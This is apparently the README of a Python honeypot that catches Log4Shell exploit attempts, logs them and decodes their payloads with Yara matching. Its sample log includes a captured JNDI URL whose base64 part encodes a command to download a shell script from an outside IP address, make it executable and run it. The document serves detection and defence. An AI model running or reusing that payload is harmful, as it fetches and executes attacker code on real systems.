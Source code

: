 # log4j_catcher

Log4j exploit catcher, detect Log4Shell exploits and try to get payloads.
This is a basic python server that listen on a port and logs information when a wild log4j exploit appears

The [Phorcys](https://github.com/PiRanhaLysis/Phorcys) dependency is used to decode payload automatically and then match with Yara rules.

## Installation

### Dependencies

```shell
sudo apt install libcurl4-nss-dev libpython3.9-dev libnss3 libnss3-dev
```

```shell
pip install -r requirements.txt
```

## Running

For ports that don't require TLS

with python:
```shell
python3 detector.py [port]
```

with docker:
```shell
docker build -t log4j_catcher .
docker run -itp 8080:8080 --env PORT=8080 log4j_catcher
```

For services with TLS it is recommended to have another component to handle the TLS protocol.
I typically run NGINX as a reverse proxy on the port 443 to forward https traffic to the honeypot.

Example:
```shell
$ sudo python3 detector.py 80
2021-12-10 23:39:59,951 INFO:Incoming connection from ('1.2.3.4', 51512)  
2021-12-10 23:40:28,997 INFO:Incoming connection from ('1.2.3.4', 37532)   
2021-12-11 03:53:36,729 INFO:Found payload jndi from ('45.137.21.9', 55378)                        
2021-12-11 03:53:36,729 INFO:URL: 45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
```

Data is logged into current directory path.
